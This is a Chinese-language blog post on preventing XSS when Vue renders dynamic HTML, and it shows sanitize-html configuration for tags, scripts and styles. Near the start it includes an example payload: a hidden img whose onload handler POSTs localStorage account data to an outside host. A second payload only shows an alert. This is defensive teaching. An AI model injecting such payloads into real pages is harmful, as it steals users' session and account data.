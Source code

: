 ```yaml
---
title: Vue Dynamic HTML Prevent XSS
date: 2022-06-26 23:39:36
tags:
  - Vue
  - v-html
  - v-sanitize
  - v-runtime-template
---
```


在開發系統中 有可能會需要使用到 CMS 系統或是動態抓取 CDN 的頁面 取得

使用者動態設定的樣板或是 Banner 這裡一般人可能不會特別想到就是 XSS Attack

我曾經遇過 真的有被駭客將靜態的 html 檔案裏面故意塞惡意程式碼，導致使用者看到錯誤畫面的狀況

(ex: 這些 html 可能被駭客塞一些 js or redirect 導到錯誤網站 讓使用者看到一些錯誤資訊)

可以參考這篇
[Vue XSS Attack Guide](https://www.stackhawk.com/blog/vue-xss-guide-examples-and-prevention/#injecting-the-malicious-script)

舉例來說我們可以透過隱藏的圖片發送 request 給 駭客的 Server 並且偷取到對應的 Cookie or Session ....

```html
<img
  src="xxxx"
  style="display:none"
  onload="fetch('https://test.api/', {method: 'POST', body: localStorage.getItem('account')})"
/>
```

回到主題來說
這裡列出兩種 vue 的 componet 可以動態 compile html ，這裡列出來用途以及差異
| Plugnin | Support | different | |
|--------------------|--------|--- --------|---|
| v-html | 只支援純粹 HTML 無法支援 vue custom component | 無法防止 XSS attack |
| v-runtime-template | 支援 vue custom component & variabe (需事先定義好) | 無法防止 XSS attack |

以下是範例
[DEMO](https://codesandbox.io/s/dynamic-template-yvfx0n)

我們可以看到我們在圖片 loading 的過程中插入 alert 如果沒有做任何阻擋 兩種方法都會跳 Alert

```html
<img
  src="https://jnx.me/img/profile.jpg"
  style="display:none"
  onload="alert('xss');"
/>
```

接下來我們介紹今天的主角 Sanitize html

[sanitize html](https://github.com/apostrophecms/sanitize-html)
在 Vue 3 裡面可以用[vue-3-sanitize](https://github.com/vannsl/vue-3-sanitize)

套件

我們這裡可以透過此套件做比較主要的三件事情

1. 限制動態 HTML 的 TAG

Default options

```javascript
allowedTags: [
  "address", "article", "aside", "footer", "header", "h1", "h2", "h3", "h4",
  "h5", "h6", "hgroup", "main", "nav", "section", "blockquote", "dd", "div",
  "dl", "dt", "figcaption", "figure", "hr", "li", "main", "ol", "p", "pre",
  "ul", "a", "abbr", "b", "bdi", "bdo", "br", "cite", "code", "data", "dfn",
  "em", "i", "kbd", "mark", "q", "rb", "rp", "rt", "rtc", "ruby", "s", "samp",
  "small", "span", "strong", "sub", "sup", "time", "u", "var", "wbr", "caption",
  "col", "colgroup", "table", "tbody", "td", "tfoot", "th", "thead", "tr"
],
disallowedTagsMode: 'discard',
allowedAttributes: {
  a: [ 'href', 'name', 'target' ],
  // We don't currently allow img itself by default, but
  // these attributes would make sense if we did.
  img: [ 'src', 'srcset', 'alt', 'title', 'width', 'height', 'loading' ]
},
// Lots of these won't come up by default because we don't allow them
selfClosing: [ 'img', 'br', 'hr', 'area', 'base', 'basefont', 'input', 'link', 'meta' ],
// URL schemes we permit
allowedSchemes: [ 'http', 'https', 'ftp', 'mailto', 'tel' ],
allowedSchemesByTag: {},
allowedSchemesAppliedToAttributes: [ 'href', 'src', 'cite' ],
allowProtocolRelative: true,
enforceHtmlBoundary: false
```

2. 限制 CSS & Script & iframe 語法

```javascript
const clean = sanitizeHtml(
  '<script src="https://www.safe.authorized.com/lib.js"></script>',
  {
    allowedTags: ['script'],
    allowedAttributes: {
      script: ['src'],
    },
    allowedScriptDomains: ['authorized.com'],
  }
);
```

```css
onst clean = sanitizeHtml(dirty, {
        allowedTags: ['p'],
        allowedAttributes: {
          'p': ["style"],
        },
        allowedStyles: {
          '*': {
            // Match HEX and RGB
            'color': [/^#(0x)?[0-9a-f]+$/i, /^rgb\(\s*(\d{1,3})\s*,\s*(\d{1,3})\s*,\s*(\d{1,3})\s*\)$/],
            'text-align': [/^left$/, /^right$/, /^center$/],
            // Match any number with px, em, or %
            'font-size': [/^\d+(?:px|em|%)$/]
          },
          'p': {
            'font-size': [/^\d+rem$/]
          }
        }
      });
```
